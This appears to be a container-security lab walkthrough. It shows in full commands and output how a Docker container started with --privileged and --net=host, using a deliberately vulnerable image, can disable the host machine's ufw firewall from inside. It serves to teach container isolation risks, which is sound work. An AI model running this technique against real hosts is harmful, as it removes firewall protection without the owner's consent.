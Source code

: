 ## Tamper Host Network Configuration


###### By setting `--privileged` and `--net=host` flag when running a container, network-stack of the host machine can be tampered with. 

###### In this Attack, `Uncomplicated Firewall(ufw)` of the host-machine is disabled from a container.

##### Step 1:

* Open Terminal

![](img/Open-Terminal.png)

##### Step 2:

* Check if `ufw` is enabled on the host machine by running `ufw status`

```commandline
root@we45:~# ufw status
Status: inactive
```

##### Step 3:

* Enable `ufw` by running `ufw enable`

```commandline
root@we45:~# ufw enable
Firewall is active and enabled on system startup
```

##### Step 4:

* Run `docker run -d --privileged --net=host --name vul_flask abhaybhargav/vul_flask` to start a docker container.

```commandline
root@we45:~# docker run -d --privileged --net=host --name vul_flask abhaybhargav/vul_flask
6733abdce5042a90db8b7d40a08155470c727e8b3864eda519714e172f63be88
```
 
##### Step 5:   

* Run `docker ps` to view, all running containers.

```commandline
root@we45:~# docker ps
CONTAINER ID        IMAGE                    COMMAND             CREATED             STATUS              PORTS               NAMES
d0169e5801fe        abhaybhargav/vul_flask   "python app.py"     24 seconds ago      Up 22 seconds       5050/tcp            vul_flask
```
     
![](img/docker-ps.png)
    
##### Step 6:   

* Run `docker exec -it vul_flask bash` to exec into a running container.

```commandline
root@we45:~# docker exec -it vul_flask bash
root@d0169e5801fe:/apps# 
```

![](img/docker-exec.png)
   
##### Step 7:

* Install `ufw` on the container by running `apt update && apt install -y ufw`

```commandline
root@we45:/apps# apt update && apt install -y ufw
```
    
##### Step 8:

* Run `ufw status` to verify if ufw is running.

```commandline
root@we45:/apps# ufw status
Status: active
```
    
##### Step 9:

* To disable `ufw` of the host machine, run `ufw disable` on the container

```commandline
root@we45:/apps# ufw disable
Firewall stopped and disabled on system startup
```

* Run `ufw status` to verify ufw is stopped or not.

```commandline
root@we45:/apps# ufw status
Status: inactive
```
 
##### Step 10:

* Run `exit` to exit from the container

```commandline
root@we45:/apps# exit
exit
```

##### Step 11:

* Run `ufw status` in the host machine to verify if ufw has been disabled.

```commandline
root@we45:~# ufw status
Status: inactive
```

##### Stop all running docker containers

* Run `clean-docker` to stop all the containers

```commandline
root@we45:~$ clean-docker
```
